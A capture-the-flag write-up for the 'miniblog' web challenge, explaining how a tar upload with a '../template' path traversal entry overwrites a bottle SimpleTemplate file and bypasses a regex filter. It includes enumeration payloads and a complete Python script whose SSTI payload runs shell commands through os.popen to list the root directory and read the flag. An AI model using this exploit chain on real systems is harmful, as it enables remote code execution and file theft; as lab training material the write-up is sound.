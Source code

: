 # miniblog
- Category: web
- Score: 353pts
- Solves: 14 solves
- Author: theoremoon

> I created a minimal blog platform. It doesn't use any complex things.
> Another instance: here

miniblog_466ff544c90345258849ac5dbde21b6a.tar.gz

## Description

Somehow I understood the question when I first see it lol.

It is a mini blog platform, after logging in I can do three things

- Create post
- Edit blog template
- Upload attachment in `tar` or `tar.gz`


The blog template contain some template, which I immediately feel it is SSTI
```py
    for brace in re.findall(r"{{.*?}}", content):
        if not re.match(r"{{!?[a-zA-Z0-9_]+}}", brace):
            return abort(400, "forbidden")
```

Hmm, weird regex.

The upload attachment feature only accept `tar` or `tar.gz`, and the question `tar.gz` provided have some weird `@PaxHeader` which does not unzip properly with 7-zip on windows, therefore I got a feeling of it is unzipping template to `../template` and bypass the filter.

## Solution

So lets create a tar file, and archive a file named `../template` in it, and copy some random SSTI code online in it. 

Failed.

---

Apparently the chal didn't use the common template solution `jinja2`, it is using `bottle` `
SimpleTemplate Engine` (as stated in the question description). So maybe I need to change the payload a bit?

The `SimpleTemplate Engine` support embedded python code so I can write easily.
https://bottlepy.org/docs/dev/stpl.html#simpletemplate-syntax

I tried these payload:

```
% for v in dir():
  {{v}}
% end
---
% for v in dir(__builtins__):
  {{v}}
% end
---
% for v in __builtins__:
  {{v}}
% end
---
% for v in __builtins__.values():
  {{v}}
% end
---
...
```

After these, I can import `os` and do RCE.

The full solution:

```py
#!/usr/bin/python2.7
import tarfile
import StringIO

tar = tarfile.TarFile("test.tar","w")
string = StringIO.StringIO()

# https://bottlepy.org/docs/dev/stpl.html#inline-expressions

string.write("""

{{ __builtins__.get("__import__")("os").popen('ls -al /').read() }}
{{ __builtins__.get("__import__")("os").popen('cat /unpredicable_name_flag').read() }}

""")

string.seek(0)
info = tarfile.TarInfo(name="../template")
info.size=len(string.buf)
tar.addfile(tarinfo=info, fileobj=string)
tar.close()
```

There are another interesting (unintended) solution is by inserting new line between `{{ }}` ( mentioned in https://furutsuki.hatenablog.com/entry/2020/09/06/230446 ). I haven't tried it tho.
